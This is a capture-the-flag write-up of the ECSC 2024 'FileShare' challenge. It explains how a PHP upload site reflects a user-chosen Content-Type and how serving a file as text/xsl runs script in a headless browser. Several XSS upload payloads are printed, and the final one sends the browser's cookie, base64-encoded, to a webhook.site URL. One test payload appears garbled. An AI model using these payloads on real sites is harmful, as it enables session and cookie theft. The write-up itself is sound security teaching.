


<style>
.basis-1\/5{flex-basis: 5% !important;}
.max-w-prose{max-width: 100ch !important;}
.prose{max-width: 100ch !important;}
</style>

# FileShare

```
You can now share your files for free thanks to our new disruptive technology!

Site: https://fileshare.challs.open.ecsc2024.it
```
attatchment: fileshare.zip
author: Xato

## Initial details
We get the source code included in this challenge, and a shared instance.
The language used for the website is php, and in the Dockerfile there is a headless browser running in the background.

We can assume that we need to extract the flag from the headless browser, and that there is no RCE.

## Functionality
The website allows you to upload any file, download uploaded files from your session, list all the files in your session and send a file to support.

Support page will make the browser start a new session, set the flag as a cookie, and download the file that is sent. The backend checks if the fileId is valid before doing the requests. 

## Unusual code
After looking around the code for unusual code, this was the first thing that looked weird to me.
Why would one only filter out content-types with letter h in it.

```php
$type = $_FILES["file"]["type"];
// I don't like the letter 'h'
if ($type == "" || preg_match("/h/i", $type) == 1){
	$type = "text/plain";
}
```

Next is to see how this is used later in the download process.

```php
$path = "/uploads/$id";
header('Content-Type: '. $row['content_type']);
readfile($path);
```

It sets the `Content-Type` header to be what we can control during the upload. 

## How can we use content type to get XSS?
Firefox MDN Docs is very useful when you need to understand a concept within web.
A quick summary of what the Content-Type header does from [Content-Type docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Type)
```
In responses, the `Content-Type` header informs the client about the media type of the returned data.
```

We know that if we open a html file from a website, it will also execute the javascript on there.
Could there be any other file types that also allows for code execution. 

After doing a quick Google I found this research page:
https://github.com/BlackFan/content-type-research/blob/master/XSS.md

Testing out the POC on chromium browser for the content-type `text/xsl` seems to work.

## Crafting our payload

```php
$url = 'http://' . getenv('HEADLESS_HOST');
$chall_url = 'http://' . getenv('WEB_DOM');
$act1 = array('type' => 'request', 'url' => $chall_url);
$act2 = array('type' => 'set-cookie', 'name' => 'flag', 'value' => getenv('FLAG'));
$act3 = array('type' => 'request', 'url' => $chall_url . '/download.php?id=' . $fileid);
```

We know here that it sets the flag using set-cookie, and we need to get it back to us.

I usually do a fetch with base64 encoded of the cookie data the browser has stored for the page.

```html
-----------------------------13099661571703276204376214506
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/xsl

<script>
fetch('https://webhook.site/...?flag=' + btoa(window.cookie))
</script>
-----------------------------13099661571703276204376214506--
```

But this time it didn't seem to work?

Let's test out if it sends a request by using a img tag with source set to the webhook.

```html
-----------------------------13099661571703276204376214506
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/xsl

<script>
	</img>
</script>
-----------------------------13099661571703276204376214506--
```


Yes it worked!

Could it be that the browser does not have fetch or blocks network calls out?

```html
-----------------------------13099661571703276204376214506
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/xsl

<script>window.location = "https://webhook.site/..."</script>
-----------------------------13099661571703276204376214506--
```

This should make the webpage navigate to the webhook website.



And that works!

## Payload

I used Firefox *edit and resend* to change the Content-Type and the content of the file being uploaded.
```html
-----------------------------13099661571703276204376214506
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/xsl

<script>
document.location = "https://webhook.site/.../?flag=" + btoa(document.cookie);
</script>
-----------------------------13099661571703276204376214506--
```

The payload sets the Content-Type to text/xsl and the content is a script that redirects the page to our webhook with the cookie being encoded as base64 as a query parameter.